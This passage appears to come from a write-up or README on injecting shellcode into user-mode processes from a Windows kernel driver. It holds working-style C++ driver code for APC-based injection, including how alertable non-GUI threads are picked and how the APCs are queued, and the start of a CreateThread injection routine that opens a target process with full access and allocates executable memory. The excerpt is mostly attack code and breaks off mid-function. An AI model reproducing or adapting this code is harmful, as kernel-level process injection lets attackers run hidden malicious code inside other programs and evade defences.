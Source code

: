 ```cpp
        if (shellcodeAddress)
            ZwFreeVirtualMemory(hProcess, &shellcodeAddress, &shellcodeSize, MEM_DECOMMIT);
        if (PrepareApc)
            ExFreePoolWithTag(PrepareApc, DRIVER_TAG);
        if (ShellcodeApc)
            ExFreePoolWithTag(ShellcodeApc, DRIVER_TAG);
    }

    if (TargetProcess)
        ObDereferenceObject(TargetProcess);

    if (hProcess)
        ZwClose(hProcess);

    return status;
}
```

The code above opens a target process, search for a thread that can be alerted (can be done by examining the [thread's MiscFlags](https://www.vergiliusproject.com/kernels/x64/Windows%2011/22H2%20(2022%20Update)/_KTHREAD) Alertable bit and the thread's ThreadFlags's GUI bit, if a thread is alertable and isn't GUI related it is suitable).

If the thread is suitable, two APCs are initialized, one for alerting the thread and another one to clean up the memory and execute the shellcode.

After the APCs are initialized, they are queued - first, the APC that will clean up the memory and execute the shellcode and later the APC that is alerting the thread to execute the shellcode.

## CreateThread Injection

Injecting a thread into a user mode process from the kernel is similar to injecting from a user mode with the main difference being that there are sufficient privileges to create another thread inside that process. That can be achieved easily by changing the calling thread's previous mode to `KernelMode` and restoring it once the thread has been created.

```cpp
NTSTATUS InjectShellcodeThread(ShellcodeInformation* ShellcodeInfo) {
    OBJECT_ATTRIBUTES objAttr{};
    CLIENT_ID cid{};
    HANDLE hProcess = NULL;
    HANDLE hTargetThread = NULL;
    PEPROCESS TargetProcess = NULL;
    PVOID remoteAddress = NULL;
    SIZE_T shellcodeSize = ShellcodeInfo->ShellcodeSize;
    HANDLE pid = UlongToHandle(ShellcodeInfo->Pid);
    NTSTATUS status = PsLookupProcessByProcessId(pid, &TargetProcess);

    if (!NT_SUCCESS(status))
        goto CleanUp;

    InitializeObjectAttributes(&objAttr, NULL, OBJ_KERNEL_HANDLE, NULL, NULL);
    cid.UniqueProcess = pid;
    cid.UniqueThread = NULL;

    status = ZwOpenProcess(&hProcess, PROCESS_ALL_ACCESS, &objAttr, &cid);

    if (!NT_SUCCESS(status))
        goto CleanUp;

    status = ZwAllocateVirtualMemory(hProcess, &remoteAddress, 0, &shellcodeSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READ);

    if (!NT_SUCCESS(status))
        goto CleanUp;
```
